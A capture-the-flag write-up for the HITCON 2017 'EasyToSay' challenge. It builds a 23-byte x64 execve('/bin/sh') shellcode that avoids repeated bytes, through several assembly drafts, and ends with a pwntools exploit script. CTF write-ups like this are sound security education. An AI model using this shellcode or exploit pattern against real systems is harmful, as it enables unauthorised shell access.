 ```yaml
---
title: "EasyToSay | Hitcon 2017"
tags: ["pwn", "shellcode"]
points: 144
solves: 139
---
```


This is a writeup explaining how I wrote a shellcode payload bypassing a size limit and avoiding repeated bytes.

## Overview
After reversing the binary we easily see the program will run any shellcode we give it with the following conditions:
1. is shorter than 24 bytes
2. does not have repeated bytes

After a little debugging we also see that before executing our shellcode all registers are zero'd.


## Solution

Here I will go through the ideias I had before arriving at the final solution.

### 1. Basic x64 shellcode
First lets try a basic x64 shellcode and see if there are any repeating bytes. That looks something like:
1. put '/bin/sh\x00' on the stack
2. put that stack address in `rdi` (filename)
3. make `rsi` (argv) equal 0
4. make `rdx` (envp) equal 0
5. call the execve syscall (a syscall table for x64 can be found [here](http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/))

We get step 3 and 4 for free since all registers are already zero'd from the start. The rest looks something like this:

```nasm
68 2f 73 68 00      push   0x0068732f   ; 1. '/sh\x00'
68 2f 62 69 6e      push   0x6e69622f   ; 1. '/bin'
48 89 e7            mov    rdi, rsp     ; 2. Put the '/bin//sh' addr in rdi
b0 3b               mov    al, 0x3b     ; 5. Mov to rax the execve syscall number
0f 05               syscall             ; 5. call it
```

### 2. Can't have 2 push's
As we can see on the left there are repeated bytes in the first two intructions.
Having 2 `push` instructions is not an option since the opcode will be repeated. Lets try to do it with a `mov` instead of a `push` and see if we have better luck.

```nasm
c7 04 24 2f 73 68 00    mov    DWORD PTR [rsp], 0x0068732f
68 2f 62 69 6e          push   0x6e69622f
48 89 e7                mov    rdi, rsp
b0 3b                   mov    al, 0x3b
0f 05                   syscall
```

That is better but `/bin/sh\x00` contains two `/` (2f) and that is a problem since it is a repeated byte. Also the byte 0x68 is repeated since it is the opcode of `push` and also the letter `'h'`. Let's try another version:

```nasm
49 bc 2f 62 69 6e 2f    movabs r12,0x68732f6e69622f
73 68 00
41 54                   push   r12
48 89 e7                mov    rdi, rsp
b0 3b                   mov    al, 0x3b
0f 05                   syscall
```

Closer! Now we only have to somehow remove the extra `/`.

At this point I tried using just `sh` or `bash`, but the execve syscall only works with a full path, making the two slashes necessary.


### 3. Masking the repeated '/'
Now the plan is to mask the slash. Instead of putting a slash there directly we want to:
1. mask `'/'` by sending the value of `'/' - 1`
2. unmask it by adding `1`, making it a `'/'` again.

```nasm
49 bc 2f 62 69 6e 2e    movabs r12,0x68732e6e69622f
73 68 00
41 54                   push   r12
fe 44 24 04             inc    BYTE PTR [rsp+0x4]
48 89 e7                mov    rdi, rsp
b0 3b                   mov    al, 0x3b
0f 05                   syscall
```

That worked! No repeated bytes and a length of 23. Just under the 24 byte limit!


## Exploit
```python
from pwn import *

context.arch = 'amd64'
context.os = 'linux'

def go():
    s = process("./easy_to_say")
    # s = remote("52.69.40.204", 8361)

    shellcode = asm(\
    """
        mov r12, %s
        push r12
        inc byte ptr [rsp+0x4]
        mov rdi, rsp
        mov al, 59
        syscall
    """ % (hex(u64("/bin" + chr(ord('/') - 1) + "sh\x00"))))


    # Check if there are any repeated bytes
    for i in range(len(shellcode)):
        for j in range(i):
            if shellcode[i] == shellcode[j]:
                print i, "==", j, "(", hex(ord(shellcode[j])), ")"
    print "There are %d bytes repeated" % (len(shellcode) - len(set(shellcode)))
    print "Shellcode of len: ", len(shellcode)
    print disasm(shellcode)

    s.sendline(shellcode)
    s.interactive()

go()
```
